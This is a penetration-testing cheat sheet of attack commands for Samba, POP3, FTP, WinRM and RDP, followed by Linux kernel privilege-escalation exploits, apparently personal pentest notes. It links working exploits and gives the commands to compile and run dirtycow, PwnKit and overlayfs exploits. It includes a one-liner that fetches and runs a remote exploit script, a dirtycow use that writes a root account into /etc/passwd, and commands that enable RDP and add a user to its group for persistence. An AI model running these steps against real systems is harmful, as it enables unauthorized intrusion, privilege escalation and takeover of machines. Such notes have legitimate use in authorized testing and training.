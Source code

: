     - https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually
- Samba 2.2.x - Remote Buffer Overflow
    - Tested on 2.2.7a
    - https://www.exploit-db.com/exploits/7
- Scan
    - `python3 enum4linux-ng.py -A {IP}`
### Pop3
- `nmap -Pn --script "pop3-capabilities or pop3-ntlm-info" -sV -p{PORT}`
- Dump
    - `PGPASSWORD="{PASSWORD}" pg_dump {DB_NAME} > test.dump`
### FTP
- Home FTP
    - [Home FTP Server 1.12 - Directory Traversal](https://www.exploit-db.com/exploits/16259)
    - [Home FTP File Download](https://webcache.googleusercontent.com/search?q=cache:92M05_e2PYcJ:https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/0911-exploits/homeftpserver-traversal.txt+&cd=4&hl=zh-TW&ct=clnk&gl=tw&client=firefox-b-d)
- FileZilla
    - Default password location
        - `C:\Program Files\FileZilla Server\FileZilla Server.xml`
        - maybe `(x86)`
- WINRM (5985 port)
    - `sudo gem install evil-winrm`
    - `evil-winrm -t {IP} -u {User} -p {pass}`
### RDP
- Enable
    - `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
    - `netsh advfirewall firewall set rule group="remote desktop" new enable=yes`
- Add User To RDP Group
    - `net localgroup "Remote Desktop Users" "{USER_NAME}" /add`
## Privilege - Linux
### Kernel Exploit
- [CVE-2017-16995](https://github.com/rlarabee/exploits/tree/master/cve-2017-16995)
    - Test on Kernel 4.4.0 (4.4.0-116-generic)
    - `gcc cve-2017-16995.c -o cve-2017-16995`
- [CVE-2012-0056 (memodipper)](https://github.com/lucyoa/kernel-exploits/blob/master/memodipper/memodipper.c)
    - `gcc memodipper.c -o m.out`
- [CVE-2010-2959 (i-can-haz-modharden)](https://raw.githubusercontent.com/macubergeek/ctf/master/privilege%20escalation/i-can-haz-modharden.c)
- Compile for old OS
    - `gcc -m32 ./{INPUT.c) -o {OUTPUT} -Wl,--hash-style=both`
    - `-static`
- CVE-2021-4034 (pkexec) (pwnkit)
    - https://haxx.in/files/blasty-vs-pkexec.c
        - `gcc blasty-vs-pkexec.c -o meow`
        - `source <(wget https://raw.githubusercontent.com/azminawwar/CVE-2021-4034/main/exploit.sh -O -)`
    - https://github.com/ly4k/PwnKit/raw/main/PwnKit
        - `chmod +x ./PwnKit`
        - `./PwnKit`
- [CVE-2016-5195 (dirtycow)](https://www.exploit-db.com/download/40611)
    - ```
      gcc -pthread 40611.c -o dirtyc0w
      ./dirtyc0w /etc/passwd "root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash
      "
      ```
- [CVE-2015-1328 (overlayfs)](https://www.exploit-db.com/download/37292)
    - Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15
    - `gcc ofs.c -o ofs`
    - `./ofs`